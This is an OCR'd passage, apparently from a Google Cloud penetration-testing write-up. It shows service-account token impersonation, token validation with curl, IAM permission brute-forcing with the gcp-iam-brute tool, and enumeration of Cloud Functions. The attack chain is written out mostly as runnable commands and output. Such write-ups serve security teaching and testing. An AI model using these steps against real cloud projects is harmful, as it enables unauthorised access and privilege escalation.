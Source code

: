 ```
  --data '{
    "delegates": ["projects/-/serviceAccounts/'"sv2-962@gr-proj-1.iam.gserviceaccount.com"'"],
    "scope": ["https://www.googleapis.com/auth/cloud-platform"]
  }'
{
  "accessToken": "<REDACTED>",
  "expireTime": "2025-09-08T16:09:25Z"
}
```
We have generated an access token for `sv3-939@gr-proj-1.iam.gserviceaccount.com`, which we can validate
```
└─$ curl https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=<REDACTED>
{
  "azp": "107592944455085205950",
  "aud": "107592944455085205950",
  "scope": "https://www.googleapis.com/auth/cloud-platform",
  "exp": "1757347765",
  "expires_in": "3483",
  "access_type": "online"
}
```
Now use [gcp-iam-brute](https://github.com/hac01/gcp-iam-brute) to brute force IAM permissions for `sv3-939@gr-proj-1.iam.gserviceaccount.com`. Although in this case we have permission to directly enumerate the IAM policies for any IAM user in the project, this tool is helpful since we are less likely to have permissions in real engagement to list IAM permissions
```
└─$ python3 main.py --access-token <REDACTED> --project-id gr-proj-1 --service-account-email sv3-939@gr-proj-1.iam.gserviceaccount.com
⠹ Fuzzing...
Role: securitycenter.securityResponseServiceAgent.json

{'permissions': ['storage.buckets.get']}

========================================
<SNIP>

⠙ Fuzzing...
Role: storage.legacyBucketWriter.json

{'permissions': ['storage.buckets.get', 'storage.managedFolders.get', 'storage.managedFolders.list', 'storage.multipartUploads.list', 'storage.objects.list']}
<SNIP>

⠧ Fuzzing...
Role: eventarc.serviceAgent.json

{'permissions': ['cloudfunctions.functions.get', 'storage.buckets.get']}

<SNIP>
```
We see that `sv3-939@gr-proj-1.iam.gserviceaccount.com` has some permissions related to Cloud Functions. Let's numerate them. Thus, set the token for `srv3` as a variable with the command `export ACCESS_TOKEN=<SRv3_ACCESS_TOKEN>`
```
└─$ curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://cloudfunctions.googleapis.com/v1/projects/gr-proj-1/locations/-/functions"
{
  "functions": [
    {
      "name": "projects/gr-proj-1/locations/us-central1/functions/function-1",
      "httpsTrigger": {
        "url": "https://us-central1-gr-proj-1.cloudfunctions.net/function-1",
        "securityLevel": "SECURE_ALWAYS"
```